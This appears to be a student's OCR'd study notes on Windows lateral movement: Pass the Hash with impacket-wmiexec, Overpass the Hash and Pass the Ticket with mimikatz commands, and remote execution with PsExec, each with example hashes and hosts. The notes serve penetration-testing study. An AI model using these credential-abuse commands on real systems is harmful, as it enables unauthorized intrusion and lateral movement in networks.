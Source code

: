 SMB -> NTLM hash

can be used to starrt windows service

Pass The Hash:
1. SMB through firewall on 445
2. Windows File and Printer Sharing
3. ADMIN$ available

need to present valid credentials with local admin permission

wmiexec from Impacket on kali

impacket-wmiexec -hashes :<hash> <user>@<ip>

only works for AC domain account and built-in local admin account


Overpass the Hash

abuse NTLM hash to gain full Kerberos TGT -> TGS

run as a different user: shift left-click "show more options" -> Run as different user

after we ran this, the credentials of the user will be cached we can see it on mimikatz

no we turn the NTLM into a kerberos ticket

mimikatz
sekurlsa::pth /user:<username> /domain:<domain>.com /ntlm:<hash> /run:powershell

example:
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell

remember to only run this on the cmd opened by mimikatz to use the ticket
net use \\file04 
to get a TGT

PsExec can run command remotely, no password hash so we can run it with kerberos ticket

.\PsExec.exe \\<machine> cmd
example:
.\PsExec.exe \\files04 cmd


Pass the Ticket

TGT us tied to user session and cannont be reused, TGS can be exported and reused across system

Pass the Ticket uses the TGS, if service ticket belong to current user admin is not needed

privilege::debug
sekurlsa::tickets /export

dir *.kirbi
in the directory of mimikatz, filtering for tickets

kerberos::ptt <ticket>
example:
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi


DCOM
